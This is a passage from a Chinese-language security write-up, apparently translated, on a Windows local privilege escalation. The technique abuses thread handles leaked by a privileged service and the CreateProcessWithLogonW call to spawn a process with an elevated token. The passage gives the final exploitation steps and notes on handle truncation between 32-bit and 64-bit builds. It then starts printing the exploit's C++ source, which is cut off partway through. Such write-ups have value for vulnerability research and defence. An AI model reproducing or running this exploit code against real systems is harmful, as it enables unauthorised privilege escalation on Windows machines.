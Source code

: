 万事俱备。 我们启动一个线程来循环给泄漏的线程句柄设置系统模拟令牌。另一个线程里面我们调用CreateProcessWithLogon 直到新进程有有权限的令牌。我们能够通过检查主令牌来确定是否创建成功。因为默认情况下我们不能打开令牌，一旦我们打开了就成功了。

![p1][1]

这个简单的方法有个问题，就是线程池中有一堆线程可用，所以我们不能确保调用服务并且准确的调用到特定的线程。所以我们得运行n次，来获取到我们想要的句柄。只要我们拿到所有有可能拿到的线程的句柄，我们基本就十有八九成功了。

也许我们能通过调整线程优先级来提高可靠性。但是看起来这种方式也还可以，也不太会崩溃然后创建一个带无特权令牌的进程。在多个线程调用CreateProcessWithLogon也没有什么意义，因为服务有个全局锁防止重入。

我在文章最后粘上了利用代码。你需要确认下编译环境，位数是否正确，因为RPC调用可能会截断句柄。因为句柄值是指针，无符号数。当RPC方法转换32位句柄到64位句柄时会自动填充零，因此(DWORD)-2 不等于 (DWORD64)-2 ，会产生无效句柄值。

0x03 结论
=====

希望我通过这个文章描绘出了一个有趣的在有权限的服务中泄漏线程句柄的攻击方式。当然，它只在泄漏的线程句柄用作能够直接给予我们进程创建能力的服务，但是你也可以用这种方式创建任意文件或其他资源。你可以通过内存损坏利用技术来达到这个目的，但是你不一定需要这么做。

0x04 代码
=====

```
#include <stdio.h>
#include <tchar.h>
#include <Windows.h>
#include <map>

#define MAX_PROCESSES 1000

HANDLE GetThreadHandle()
{
  PROCESS_INFORMATION procInfo = {};
  STARTUPINFO startInfo = {};
  startInfo.cb = sizeof(startInfo);

  startInfo.hStdInput = GetCurrentThread();
  startInfo.hStdOutput = GetCurrentThread();
  startInfo.hStdError = GetCurrentThread();
  startInfo.dwFlags = STARTF_USESTDHANDLES;

  if (CreateProcessWithLogonW(L"test", L"test", L"test", 
               LOGON_NETCREDENTIALS_ONLY, 
               nullptr, L"cmd.exe", CREATE_SUSPENDED, 
               nullptr, nullptr, &startInfo, &procInfo))
  {
    HANDLE hThread;   
    BOOL res = DuplicateHandle(procInfo.hProcess, (HANDLE)0x4, 
             GetCurrentProcess(), &hThread, 0, FALSE, DUPLICATE_SAME_ACCESS);
    DWORD dwLastError = GetLastError();
    TerminateProcess(procInfo.hProcess, 1);
    CloseHandle(procInfo.hProcess);
    CloseHandle(procInfo.hThread);
    if (!res)
    {
      printf("Error duplicating handle %d\n", dwLastError);
      exit(1);
    }

    return hThread;
  }
  else
  {
    printf("Error: %d\n", GetLastError());
    exit(1);
  }
```